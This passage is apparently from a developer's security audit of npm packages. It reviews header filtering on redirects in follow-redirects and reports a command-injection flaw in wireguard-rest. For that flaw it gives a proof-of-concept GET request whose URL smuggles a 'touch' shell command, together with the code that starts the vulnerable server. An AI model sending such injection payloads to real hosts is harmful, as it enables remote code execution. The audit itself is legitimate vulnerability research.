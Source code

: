 Good test case written by the dev to check for this vuln in the code. Check the PR mentioned.

## 3. Code Audit of [follow-redirects](https://www.npmjs.com/package/follow-redirects?activeTab=readme)

Weekly downloads: 38M
[Source code](https://github.com/follow-redirects/follow-redirects)
[Snyk Advisory](https://security.snyk.io/package/npm/follow-redirects)

Given the number of issues that have been on information exposure and input validation, let's test the package on some real world example scenarios.

> You can mark any request header as sensitive, but the following are treated as sensitive by Edge Diagnostics by default:
>
> - Authorization
> - All headers containing API-Key
> - Proxy-Authorization
> - x-amz-security-token
>   [source](https://techdocs.akamai.com/edge-diagnostics/reference/sensitive-headers)

- [x] Maximum number of redirects [here is the code to check that](https://github.com/follow-redirects/follow-redirects/blob/35a517c5861d79dc8bff7db8626013d20b711b06/index.js#L410-L411). If fairly simple and logic seems airtight

- [x] Should it be however sending CSRF tokens? Raised it [here](https://github.com/follow-redirects/follow-redirects/security/advisories/GHSA-69q4-g9j8-rwp7). The code snippet below ensures that sensitive headers are filtered out.

```js
// https://github.com/follow-redirects/follow-redirects/blob/main/index.js#L464
removeMatchingHeaders(/^(?:authorization|cookie)$/i, this._options.headers)
```

## 4. Code Audit of [wireguard-rest](https://www.npmjs.com/package/wireguard-rest)

Weekly download: 0
No Snyk advisory

Sadly, this package was never updated and has [[wireguard-wrapper] One with command Injection via insecure command concatenation](https://hackerone.com/reports/858674) vulnerability and hence is susceptible to the same problem.

[Loom video going over the POC](https://www.loom.com/share/a7048a719de54978b291f3c4bf7c047c). This would enable a direct remote code execution on the device running this package.

```bash
# get request payload
GET http://localhost:1234/wg/showconf/%3Btouch%20%7E%2FDesktop%2Ftype-script-learnings%2Fsecurity%2Fhacked.txt
```

Code to run the server (as provided in the docs)

```js
// run the server
const app = require("wireguard-rest")

app.listen(1234, function () {
  console.log(`Wireguard API listening on port 1234`)
})
```

